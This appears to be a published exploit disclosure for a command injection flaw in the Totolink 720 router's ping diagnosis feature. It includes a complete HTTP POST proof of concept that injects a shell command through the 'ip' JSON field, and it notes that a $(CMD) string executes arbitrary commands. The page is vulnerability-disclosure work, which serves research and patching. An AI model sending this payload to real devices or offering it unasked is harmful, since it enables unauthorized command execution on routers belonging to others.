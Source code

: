 <b>Exploit Title:</b>Totolink 720 has a code execution vulnerability   
Version:V4.1.5cu.374  
Date:2022/08/16  
Exploit Author:xiaohu816  
Vendor Homepage:https://www.totolink.net/  

POC:  
After the administrator logs in, enter "system tools" - > "Ping diagnosis" page  
执行tls>/tmp/1.txt命令  
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1  
Content-Length: 52  
Accept: application/json, text/javascript, */*; q=0.01  
X-Requested-With: XMLHttpRequest  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
Origin: http://192.168.0.1  
Referer: http://192.168.0.1/advance/diagnosis.html?time=1659889464870  
Accept-Encoding: gzip, deflate  
Accept-Language: en-US,en;q=0.9  
Cookie: SESSION_ID=2:1591951611:2  
Connection: close  

{"ip":"aaaa\tls>/tmp/1.txt","num":"2","topicurl":"setDiagnosisCfg"}   
```

Analysis Report:   
In the setdiagnosicfg function, the value string corresponding to the IP in the JSON data is directly put into V6  

![image](https://user-images.githubusercontent.com/111302002/184783693-4239eb22-9729-4d3b-8357-57af94abebb4.png)  

![image](https://user-images.githubusercontent.com/111302002/184783789-cdb09e00-feb1-4010-bc17-7ef477fe0da5.png)  
Just write a string such as $(CMD) in the value corresponding to the IP to complete the command injection at CMD  


